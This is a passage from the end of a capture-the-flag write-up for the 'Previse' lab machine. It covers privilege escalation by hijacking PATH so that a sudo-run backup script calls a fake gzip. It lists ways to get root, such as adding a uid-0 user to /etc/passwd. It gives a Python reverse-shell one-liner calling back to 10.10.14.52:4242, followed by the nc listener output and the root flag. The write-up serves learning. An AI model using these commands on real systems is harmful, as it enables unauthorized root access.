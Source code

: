    gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
    gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz

Obviously we could just retrive the flag by putting `cp /root/root.txt /tmp && chmod 777 /tmp/*`
in our `gzip` file but a `root` shell is better.

We have a few ways to get a root shell with our command injection:

* Add a root (id 0) user to `/etc/passwd` with a password of our choice (see [armageddon](/2021/07/htb-armageddon.html)
* surcharge our `sudo` permissions  (see [bountyhunter](TODO link XXX))
* Add an ssh key to `root`
* run a reverse shell

We will use the latest one here and get a reverse shell as `root` allowing to grab
the last flag.

    :::text
    m4lwhere@previse:~$ export PATH=./:$PATH
    m4lwhere@previse:~$ vim gzip
    m4lwhere@previse:~$ cat gzip
    python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.52",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
    m4lwhere@previse:~$ chmod +x gzip
    m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh

    └─$ nc -l -p 4242
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    d465e7ac787731bbd7de2f69444407e3


# Wrapping up

An easy box really recommended for beginners as their is only two classical
vulnerabilities here.

